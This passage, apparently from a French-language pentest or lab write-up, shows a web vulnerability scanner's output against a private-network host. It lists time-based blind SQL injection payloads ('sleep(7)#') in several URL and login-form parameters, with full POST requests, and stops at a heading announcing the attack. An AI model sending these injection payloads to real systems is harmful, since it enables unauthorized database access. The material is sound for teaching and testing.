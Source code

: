 ```plain
[+] Lancement du module blindsql
Faille d'injection SQL en aveugle dans http://192.168.1.95/ via une injection dans le paramètre id
  Evil url: http://192.168.1.95/?id=sleep%287%29%231
Faille d'injection SQL en aveugle dans http://192.168.1.95/index.php via une injection dans le paramètre action
  Evil url: http://192.168.1.95/index.php?action=sleep%287%29%231
Faille d'injection SQL en aveugle dans http://192.168.1.95/index.php via une injection dans le paramètre id
  Evil url: http://192.168.1.95/index.php?id=sleep%287%29%231
Faille d'injection SQL en aveugle dans http://192.168.1.95/?action=sleep%287%29%231 via une injection dans le paramètre action
Evil request:
POST /?action=sleep%287%29%231 HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/?action=login
Content-Type: application/x-www-form-urlencoded

username=default&password=letmein

Faille d'injection SQL en aveugle dans http://192.168.1.95/?action=login via une injection dans le paramètre password
Evil request:
POST /?action=login HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/?action=login
Content-Type: application/x-www-form-urlencoded

username=default&password=sleep%287%29%231

Faille d'injection SQL en aveugle dans http://192.168.1.95/index.php?action=sleep%287%29%231 via une injection dans le paramètre action
Evil request:
POST /index.php?action=sleep%287%29%231 HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/index.php?action=login
Content-Type: application/x-www-form-urlencoded

username=default&password=letmein

Faille d'injection SQL en aveugle dans http://192.168.1.95/index.php?action=login via une injection dans le paramètre password
Evil request:
POST /index.php?action=login HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/index.php?action=login
Content-Type: application/x-www-form-urlencoded

username=default&password=sleep%287%29%231
```

Puis vint l'attaque
-------------------
